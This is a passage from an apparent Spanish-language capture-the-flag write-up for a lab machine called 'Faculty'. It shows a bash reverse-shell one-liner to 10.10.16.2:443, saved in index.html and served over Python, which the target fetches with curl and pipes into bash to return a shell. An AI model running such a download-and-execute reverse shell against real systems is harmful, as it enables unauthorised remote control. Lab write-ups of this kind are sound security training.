 Por lo que probare si también puedo enviarme un ping a mi maquina, me pongo en escucha por la interfaz `tun0` con `tcpdump` y veo que si recibo el ping 

![ping](../assets/images-Faculty/ping.png)

![ping2](../assets/images-Faculty/ping2.png)

Al intentar enviarme una revershell veo que no me funciona pero si creo un  archivo en este caso `index.html` con el contenido `bash -i >& /dev/tcp/10.10.16.2/443 0>&1`  

![rever](../assets/images-Faculty/rever.png)

Y me monto un servidor con Python para ofrecer este recurso que creamos, por lo tanto me pongo en escucha y hago un curl a mi servidor y al output lo interpreto con bash, obtengo la revershell

![flag](../assets/images-Faculty/flag.png)
